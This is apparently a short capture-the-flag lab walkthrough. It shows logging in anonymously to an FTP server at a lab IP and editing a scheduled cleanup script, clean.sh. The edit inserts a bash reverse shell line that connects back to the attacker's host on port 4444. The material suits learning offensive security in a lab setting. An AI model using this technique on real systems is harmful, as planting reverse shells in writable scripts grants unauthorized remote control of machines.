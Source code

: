 1. Go to File Explorer (Thunar) --> Browse Network, then type on the top:

    ftp://10.10.47.34

Log in as anonymous, then go into scripts, edit clean.sh as follows:

    #!/bin/bash

    tmp_files=0
    echo $tmp_files
    if [ $tmp_files=0 ]
    then
            echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
    bash -i >& /dev/tcp/10.8.82.167/4444 0>&1
    ##THIS LINE ABOVE ^^, it'll just continuously run.
    
    else
        for LINE in $tmp_files; do
            rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
    fi

![](images/2020-08-25-21-33-46.png)